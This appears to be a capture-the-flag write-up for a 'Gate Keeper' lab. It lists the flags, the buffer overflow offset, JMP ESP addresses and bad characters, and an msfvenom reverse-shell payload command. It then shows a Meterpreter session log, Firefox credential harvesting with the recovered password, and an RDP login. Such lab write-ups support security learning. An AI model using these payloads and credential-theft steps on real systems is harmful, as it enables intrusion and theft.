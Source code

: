 # Gate Keeper

## Task 1  Approach the Gates
+ `No Answer Needed`

## Task 2  Defeat the Gatekeeper and pass through the fire.
+ Locate and find the User Flag. `{H4lf_W4y_Th3r3}`
+ Locate and find the Root Flag `{Th3_M4y0r_C0ngr4tul4t3s_U}`

## Enumeration on Samba and got the `gatekeeper.exe`
+ offset = 146
+ jump_esp
    - `080414C3`
    - `080416BF`
+ badchar `\x00\x0a`
+ generate payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.37.160  LPORT=1337  EXITFUNC=thread -f c -b "\x00\x0a"`

## privilege escalation
+ on meterpreter
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.4.37.160:1337
[*] Sending stage (175686 bytes) to 10.10.143.166
[*] Meterpreter session 2 opened (10.4.37.160:1337 -> 10.10.143.166:49174) at 2024-02-05 20:26:14 +0700

meterpreter > sysinfo
Computer        : GATEKEEPER
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows


meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  2         meterpreter x86/windows  GATEKEEPER\natbat @ GATEKEEPER  10.4.37.160:1337 -> 10.10.143.166:49174 (10.10.143.166)

msf6 exploit(multi/handler) > use post/multi/gather/firefox_creds
msf6 post(multi/gather/firefox_creds) > run

[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /home/lodwig/.msf4/loot/20240205203931_default_10.10.143.166_ff.ljfn812a.cert_199930.bin
[+] Downloaded cookies.sqlite: /home/lodwig/.msf4/loot/20240205203934_default_10.10.143.166_ff.ljfn812a.cook_973955.bin
[+] Downloaded key4.db: /home/lodwig/.msf4/loot/20240205203939_default_10.10.143.166_ff.ljfn812a.key4_122635.bin
[+] Downloaded logins.json: /home/lodwig/.msf4/loot/20240205203943_default_10.10.143.166_ff.ljfn812a.logi_573928.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default

[*] Post module execution completed
```
+ Change the downloaded file 
```bash
┌──(lodwig㉿kali)-[~/.msf4/loot]
└─$ ls
cert9.db  cookies.sqlite  key4.db  login.json

┌──(lodwig㉿kali)-[~/Documents/THM/GateKeeper]
└─$ python ff.py ./
2024-02-05 20:44:34,348 - WARNING - profile.ini not found in ./
2024-02-05 20:44:34,349 - WARNING - Continuing and assuming './' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'

```
+ use free rdp to connect `xfreerdp /u:mayor /p:8CL7O1N78MdrCIsV /v:10.10.143.166 /cert:ignore /workarea /tls-seclevel:+enforce-tls1_2`
+ Check the file `root.txt`

